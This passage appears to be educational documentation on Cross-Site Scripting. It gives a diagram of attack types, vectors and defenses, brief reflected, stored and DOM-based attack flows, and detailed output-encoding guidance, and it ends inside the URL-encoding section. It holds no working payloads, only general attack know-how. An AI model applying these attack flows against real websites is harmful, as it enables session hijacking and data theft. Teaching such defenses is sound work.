






# Cross-Site Scripting (XSS): Technical Security Documentation

> [!CAUTION]
> **Legal Disclaimer**: This document is for strictly educational and professional security research purposes. Unauthorized access to computer systems is illegal. The scripts provided are Proof-of-Concept (PoC) intended for use in controlled, lab environments. The author assumes no liability for misuse of this information.

## Table of Contents
1. [Introduction and Core Concepts](#introduction-and-core-concepts)
2. [Defense Principles](#defense-principles)
3. [Mitigation Strategies](#mitigation-strategies)
4. [Real-World Attack Scenarios](#real-world-attack-scenarios)

---

## XSS Overview: Concepts and Relationships

The following diagram provides a high-level overview of Cross-Site Scripting (XSS) concepts, attack types, vectors, and defense mechanisms, illustrating how they interconnect:

```mermaid
flowchart TB
    subgraph AttackTypes["XSS Attack Types"]
        Reflected["Reflected XSS<br/>(Non-Persistent)<br/>• Payload in request<br/>• Immediately reflected<br/>• Requires user interaction"]
        Stored["Stored XSS<br/>(Persistent)<br/>• Payload stored on server<br/>• Affects multiple users<br/>• No interaction needed"]
        DOM["DOM-Based XSS<br/>(Client-Side)<br/>• Payload in browser<br/>• Never sent to server<br/>• Client-side manipulation"]
    end

    subgraph AttackVectors["Attack Vectors & Entry Points"]
        URLParams["URL Parameters<br/>(?param=payload)"]
        FormData["Form Submissions<br/>(POST data)"]
        Headers["HTTP Headers<br/>(User-Agent, Referer)"]
        Fragments["URL Fragments<br/>(#payload)"]
        UserContent["User-Generated Content<br/>(Comments, Profiles)"]
        Storage["Client Storage<br/>(localStorage, sessionStorage)"]
    end

    subgraph RenderingContexts["Rendering Contexts"]
        HTMLBody["HTML Body Context<br/>&lt;div&gt;data&lt;/div&gt;"]
        HTMLAttr["HTML Attribute Context<br/>&lt;input value='data'&gt;"]
        JSContext["JavaScript Context<br/>&lt;script&gt;var x='data'&lt;/script&gt;"]
        URLContext["URL Context<br/>&lt;a href='data'&gt;"]
        CSSContext["CSS Context<br/>&lt;div style='color: data'&gt;"]
    end

    subgraph DefenseLayers["Defense Layers"]
        InputVal["Input Validation<br/>• Type checking<br/>• Format validation<br/>• Allowlist approach"]
        OutputEnc["Output Encoding<br/>• HTML Entity<br/>• JavaScript Unicode<br/>• URL Percent<br/>• CSS Hex"]
        HTMLSanit["HTML Sanitization<br/>• DOMPurify<br/>• Remove dangerous tags<br/>• Allowlist safe HTML"]
        SafeAPIs["Safe DOM APIs<br/>• textContent<br/>• setAttribute<br/>• createElement"]
        CSP["Content Security Policy<br/>• Restrict script sources<br/>• Prevent inline scripts<br/>• Resource allowlist"]
        CookieSec["Secure Cookies<br/>• HttpOnly flag<br/>• SameSite attribute<br/>• Secure flag"]
    end

    subgraph AttackImpact["Attack Impact"]
        SessionHijack["Session Hijacking<br/>Cookie theft"]
        DataTheft["Data Theft<br/>Sensitive information"]
        AccountTakeover["Account Takeover<br/>Credential theft"]
        Defacement["Website Defacement<br/>Content modification"]
        Malware["Malware Distribution<br/>Redirects & downloads"]
    end

    %% Attack Type Connections
    URLParams --> Reflected
    FormData --> Reflected
    Headers --> Reflected
    Fragments --> DOM
    Storage --> DOM
    UserContent --> Stored

    %% Attack Type to Contexts
    Reflected --> HTMLBody
    Reflected --> HTMLAttr
    Reflected --> JSContext
    Stored --> HTMLBody
    Stored --> HTMLAttr
    Stored --> JSContext
    DOM --> HTMLBody
    DOM --> HTMLAttr
    DOM --> JSContext

    %% Contexts to Impact
    HTMLBody --> SessionHijack
    HTMLAttr --> SessionHijack
    JSContext --> SessionHijack
    HTMLBody --> DataTheft
    JSContext --> DataTheft
    HTMLBody --> AccountTakeover
    JSContext --> AccountTakeover
    HTMLBody --> Defacement
    HTMLBody --> Malware

    %% Defense Connections
    InputVal --> OutputEnc
    OutputEnc --> HTMLBody
    OutputEnc --> HTMLAttr
    OutputEnc --> JSContext
    OutputEnc --> URLContext
    OutputEnc --> CSSContext
    HTMLSanit --> HTMLBody
    SafeAPIs --> DOM
    CSP --> JSContext
    CSP --> HTMLBody
    CookieSec --> SessionHijack

    %% Defense Mitigation
    OutputEnc -.->|Prevents| Reflected
    OutputEnc -.->|Prevents| Stored
    SafeAPIs -.->|Prevents| DOM
    HTMLSanit -.->|Prevents| Stored
    CSP -.->|Mitigates| Reflected
    CSP -.->|Mitigates| Stored
    CSP -.->|Mitigates| DOM
    CookieSec -.->|Limits Impact| SessionHijack

    %% Styling
    classDef attackType fill:#ffffff,stroke:#ff0000,stroke-width:3px,color:#000000
    classDef vector fill:#ffffff,stroke:#ff6600,stroke-width:3px,color:#000000
    classDef context fill:#ffffff,stroke:#0066cc,stroke-width:3px,color:#000000
    classDef defense fill:#ffffff,stroke:#00cc00,stroke-width:3px,color:#000000
    classDef impact fill:#ffffff,stroke:#cc00cc,stroke-width:3px,color:#000000

    class Reflected,Stored,DOM attackType
    class URLParams,FormData,Headers,Fragments,UserContent,Storage vector
    class HTMLBody,HTMLAttr,JSContext,URLContext,CSSContext context
    class InputVal,OutputEnc,HTMLSanit,SafeAPIs,CSP,CookieSec defense
    class SessionHijack,DataTheft,AccountTakeover,Defacement,Malware impact
```



### Diagram Legend

- **Red Borders (Attack Types)**: The three primary XSS vulnerability types
- **Orange Borders (Attack Vectors)**: Entry points where malicious input enters the application
- **Blue Borders (Rendering Contexts)**: Different contexts where data is rendered, each requiring specific encoding
- **Green Borders (Defense Layers)**: Protection mechanisms that prevent or mitigate XSS attacks
- **Purple Borders (Attack Impact)**: Potential consequences of successful XSS attacks
- **Solid Arrows**: Data flow and relationships
- **Dashed Arrows**: Defense mechanisms preventing specific attack types

### Key Relationships

1. **Attack Types → Vectors**: Different XSS types exploit different entry points (URL parameters for Reflected, database storage for Stored, client-side APIs for DOM-Based)

2. **Vectors → Contexts**: Attack vectors lead to data being rendered in various contexts, each requiring context-specific encoding

3. **Contexts → Impact**: The rendering context determines what an attacker can achieve (JavaScript context enables full script execution, HTML context enables content injection)

4. **Defenses → Prevention**: Multiple defense layers work together, with Output Encoding as the primary defense, supported by Input Validation, HTML Sanitization, Safe APIs, CSP, and Secure Cookies

5. **Defense-in-Depth**: The diagram shows how multiple defenses can prevent the same attack type, illustrating the importance of layered security

---

## Introduction and Core Concepts

### Definition

**Cross-Site Scripting (XSS)** is a security vulnerability that allows attackers to inject malicious JavaScript code into web pages viewed by other users. Despite its name, XSS attacks do not necessarily involve cross-site interactions; the term originated from early versions of the attack that primarily focused on stealing data across sites. Modern XSS attacks can inject any malicious content, including scripts that execute in the victim's browser context.

XSS vulnerabilities occur when web applications fail to properly validate, sanitize, or encode user-supplied input before rendering it in web pages. When malicious scripts are executed in a user's browser, they run with the same privileges as the legitimate application, enabling attackers to steal sensitive data, hijack user sessions, deface websites, or perform actions on behalf of the victim.

### How the Attack Works

The fundamental mechanism of XSS attacks involves three critical components:

1. **Injection Point**: The web application accepts user input without proper validation or encoding
2. **Rendering Context**: The untrusted input is dynamically inserted into HTML output that is sent to browsers
3. **Execution**: The browser interprets the malicious content as executable code rather than displayable text

The attack succeeds when the browser's rendering engine cannot distinguish between legitimate application code and attacker-injected malicious code. This occurs because browsers parse and execute JavaScript, HTML, CSS, and other content based on context, and if untrusted data is placed in an execution context (such as within `<script>` tags or event handlers), it will be executed.

The severity of XSS attacks is amplified by the fact that malicious scripts execute in the context of the vulnerable application, meaning they have access to:
- Session cookies and authentication tokens
- DOM content and structure
- Local storage and session storage
- Same-origin resources and APIs
- User interactions and keystrokes (through event handlers)

### Impact

XSS attacks can have severe consequences depending on the application's functionality and the privileges of affected users:

- **Session Hijacking**: Stealing authentication cookies or tokens to impersonate users
- **Account Takeover**: Modifying account settings, passwords, or email addresses
- **Data Theft**: Exfiltrating sensitive information displayed on pages (credit cards, personal data, private messages)
- **Phishing**: Injecting fake login forms to harvest credentials
- **Keylogging**: Capturing user keystrokes and sensitive input
- **Defacement**: Modifying page content to display malicious messages or redirects
- **Malware Distribution**: Redirecting users to malicious sites or downloading malware
- **Privilege Escalation**: Exploiting XSS in administrative interfaces to gain elevated access
- **Business Logic Manipulation**: Altering application behavior to bypass security controls

The impact is particularly severe when XSS affects administrative interfaces, financial applications, or systems handling sensitive personal data. Even in less critical applications, XSS can damage user trust and organizational reputation.

### Attack Vectors

XSS vulnerabilities manifest in three primary forms, each with distinct characteristics:

#### 1. Reflected XSS (Non-Persistent)

Reflected XSS occurs when malicious input is immediately reflected in the application's response without being stored. The attack payload is typically delivered through URL parameters, form submissions, or HTTP headers, and the malicious script is executed when the victim views the crafted URL or submits the malicious form.

**Characteristics:**
- Attack payload is embedded in the request (URL, form data, headers)
- Server immediately reflects the payload in the response
- Requires user interaction (clicking a link, submitting a form)
- Payload is not stored on the server
- Often used in phishing campaigns

**Example Attack Flow:**
An attacker crafts a URL containing malicious JavaScript in a search parameter. When a victim clicks the link, the application displays the search term without encoding, causing the script to execute.

#### 2. Stored XSS (Persistent)

Stored XSS occurs when malicious input is permanently stored on the server (in databases, file systems, or other persistent storage) and subsequently displayed to users without proper encoding. Unlike reflected XSS, stored XSS does not require user interaction with a malicious link; the attack executes automatically when users view the compromised content.

**Characteristics:**
- Attack payload is stored on the server
- Payload persists across sessions and affects multiple users
- No user interaction required beyond viewing the compromised page
- Most dangerous form of XSS due to scalability
- Common in user-generated content areas (comments, profiles, forums)

**Example Attack Flow:**
An attacker submits a malicious comment containing JavaScript to a forum. The comment is stored in the database. When other users view the forum thread, their browsers execute the malicious script.

#### 3. DOM-Based XSS

DOM-Based XSS is a client-side injection vulnerability where the attack payload is never sent to the server. Instead, malicious input modifies the DOM environment in the victim's browser, causing client-side code to execute in an unexpected manner. The vulnerability exists entirely in client-side JavaScript code.

**Characteristics:**
- Attack occurs entirely in the browser
- Server-side defenses may not detect the vulnerability
- Payload manipulation happens through DOM APIs
- Often involves `document.write()`, `innerHTML`, `eval()`, or URL fragment manipulation
- Difficult to detect with traditional security scanning tools

**Example Attack Flow:**
A web application uses JavaScript to read a value from `window.location.hash` and writes it directly to the page using `innerHTML`. An attacker crafts a URL with malicious JavaScript in the hash fragment, which executes when the page processes the hash value.

### Context-Specific Attack Surfaces

XSS attacks can exploit different rendering contexts within web applications, each requiring specific encoding or sanitization:

- **HTML Context**: Data placed between HTML tags (e.g., `<div>userInput</div>`)
- **HTML Attribute Context**: Data placed in attribute values (e.g., `<input value="userInput">`)
- **JavaScript Context**: Data placed within `<script>` tags or event handlers
- **URL Context**: Data placed in URLs (e.g., `<a href="userInput">`)
- **CSS Context**: Data placed in style attributes or stylesheets

Each context has different parsing rules and requires context-specific encoding to prevent XSS. Using the wrong encoding method (e.g., HTML encoding in a JavaScript context) will not prevent the attack.

---

## Defense Principles

### Core Principles for Protection

Effective XSS defense requires a multi-layered approach based on fundamental security principles:

#### 1. Output Encoding (Context-Aware Encoding)

The primary defense against XSS is to treat all untrusted data as displayable text rather than executable code. Output encoding converts potentially dangerous characters into safe representations that browsers interpret as data, not code.

**Key Principle**: Encode data for the specific context where it will be rendered. Different contexts (HTML, JavaScript, URL, CSS) require different encoding methods because browsers parse each context differently.

**When to Apply:**
- Always encode untrusted data before rendering it in any output context
- Apply encoding as close as possible to the point of output
- Use framework-provided encoding functions when available
- Never rely on a single encoding method for all contexts

#### 2. Input Validation

While output encoding is the primary defense, input validation provides an additional layer of protection by rejecting or sanitizing malicious input before it enters the application.

**Key Principle**: Validate input based on expected data types and formats using allowlists (preferred) rather than denylists. Validation should enforce business rules and reject data that doesn't conform to expected patterns.

**When to Apply:**
- Validate all user input at application entry points
- Use strict type checking and format validation
- Implement length limits and character restrictions where appropriate
- Validate data from all sources: users, databases, APIs, file systems

#### 3. HTML Sanitization

When applications must allow users to author HTML content (such as in WYSIWYG editors or rich text fields), output encoding would break functionality. HTML sanitization strips dangerous elements and attributes while preserving safe formatting.

**Key Principle**: Use well-maintained, battle-tested sanitization libraries that understand HTML structure and can safely remove or neutralize dangerous content while preserving intended functionality.

**When to Apply:**
- When users need to author HTML content
- In rich text editors or content management systems
- When displaying user-generated content that requires formatting
- Never as a replacement for output encoding in non-HTML contexts

#### 4. Content Security Policy (CSP)

CSP is a defense-in-depth mechanism that restricts which resources can be loaded and executed by the browser. It acts as an allowlist that prevents unauthorized script execution even if XSS vulnerabilities exist.

**Key Principle**: CSP should complement, not replace, proper output encoding. It provides an additional safety net but should not be the primary defense mechanism.

**When to Apply:**
- As an additional layer of defense alongside output encoding
- To prevent inline script execution
- To restrict resource loading to trusted sources
- To report policy violations for monitoring

#### 5. Framework Security Features

Modern web frameworks provide built-in protections against XSS through automatic escaping, templating systems, and safe APIs.

**Key Principle**: Understand your framework's security features and use them correctly. Be aware of escape hatches and unsafe functions that bypass framework protections.

**When to Apply:**
- Use framework-provided templating and escaping mechanisms
- Prefer framework-safe APIs over direct DOM manipulation
- Understand and avoid framework escape hatches unless absolutely necessary
- Keep frameworks and dependencies updated

### When and Where to Apply Defenses

#### Server-Side Defenses

**Output Encoding:**
- Apply in all server-side rendering contexts (templates, API responses, error messages)
- Encode data immediately before output, not at input time
- Use context-specific encoding functions
- Encode all variables, not just user input (data from databases, APIs, and file systems should also be considered untrusted)

**Input Validation:**
- Validate at application boundaries (HTTP requests, file uploads, API inputs)
- Validate before storing data in databases
- Validate before processing business logic
- Return clear error messages without exposing internal details

**Framework Protections:**
- Enable automatic escaping in templating engines
- Use parameterized queries to prevent SQL injection (which can lead to stored XSS)
- Configure security headers (CSP, X-Content-Type-Options, etc.)

#### Client-Side Defenses

**DOM Manipulation Safety:**
- Use safe DOM APIs (`textContent` instead of `innerHTML`)
- Avoid dangerous functions (`eval()`, `document.write()`, `setTimeout()` with strings)
- Validate and encode data from DOM sources (`location`, `document.referrer`, `localStorage`)
- Use safe attribute setters (`setAttribute()` for safe attributes, direct property assignment for event handlers)

**JavaScript Context Safety:**
- Never place untrusted data directly in JavaScript code
- Use JSON encoding for data passed to JavaScript
- Avoid constructing JavaScript code dynamically
- Use safe parsing methods (`JSON.parse()` instead of `eval()`)

**URL and Hash Handling:**
- Validate and encode URL parameters and hash fragments
- Avoid using `location.hash` or `location.search` values directly in DOM manipulation
- Use URL parsing libraries that handle encoding correctly

#### Defense-in-Depth Strategy

Apply multiple layers of defense:

1. **Input Validation**: Reject obviously malicious input
2. **Output Encoding**: Encode all output for its specific context
3. **HTML Sanitization**: When HTML content is required
4. **Content Security Policy**: Restrict resource loading and script execution
5. **Secure Cookie Attributes**: Limit cookie access to mitigate session theft
6. **Framework Protections**: Leverage built-in security features
7. **CORS Configuration**: Restrict cross-origin API access to limit exfiltration of stolen data to allowed origins (does not prevent XSS but reduces impact)

No single defense is perfect. Combining multiple techniques provides robust protection even if one layer fails.

---

## Mitigation Strategies

### Primary Mitigation Techniques

#### 1. Output Encoding

Output encoding is the most critical and effective defense against XSS. It converts potentially dangerous characters into safe representations that browsers interpret as data.

**HTML Entity Encoding**

Used when placing untrusted data in HTML body contexts (between tags).

**Encoding Rules:**
- `&` → `&amp;`
- `<` → `&lt;`
- `>` → `&gt;`
- `"` → `&quot;`
- `'` → `&#x27;`

**When to Use:**
- Data placed between HTML tags: `<div>userInput</div>`
- Safe HTML attributes that don't execute code
- Most common encoding method for general HTML output

**Implementation Considerations:**
- Use framework-provided encoding functions (e.g., React's automatic escaping, Angular's sanitization)
- For JavaScript DOM manipulation, use `textContent` property which automatically applies HTML entity encoding
- Ensure encoding happens at output time, not input time

**HTML Attribute Encoding**

Used when placing untrusted data in HTML attribute values.

**Encoding Rules:**
- Encode all characters with `&#xHH;` format (hexadecimal)
- Alphanumeric characters (A-Z, a-z, 0-9) remain unencoded
- All other characters, including spaces, are encoded

**When to Use:**
- Data in attribute values: `<input value="userInput">`
- Only for attributes that don't execute code (not event handlers like `onclick`)
- Must be combined with proper quoting of attribute values

**Implementation Considerations:**
- Always quote attribute values with `"` or `'`
- Quoting significantly reduces the character set that needs encoding
- Use `setAttribute()` method in JavaScript for safe attributes
- Never use attribute encoding for event handler attributes

**JavaScript Encoding**

Used when placing untrusted data in JavaScript contexts (within `<script>` tags or JavaScript variables).

**Encoding Rules:**
- Encode all characters using `\uXXXX` format (Unicode escape sequences)
- Alphanumeric characters remain unencoded
- Example: `A` becomes `\u0041`

**When to Use:**
- Data in JavaScript variables: `var x = 'userInput';`
- Data in event handlers: `<div onclick="handler('userInput')">`
- Only in "quoted data values" within JavaScript

**Implementation Considerations:**
- Only safe when data is inside quoted strings
- Never place untrusted data directly in JavaScript code outside quotes
- Use JSON encoding for complex data structures
- Avoid backslash encoding (`\"` or `\'`) as it can be bypassed

**URL Encoding**

Used when placing untrusted data in URL contexts.

**Encoding Rules:**
- Use standard percent encoding: `%HH` format
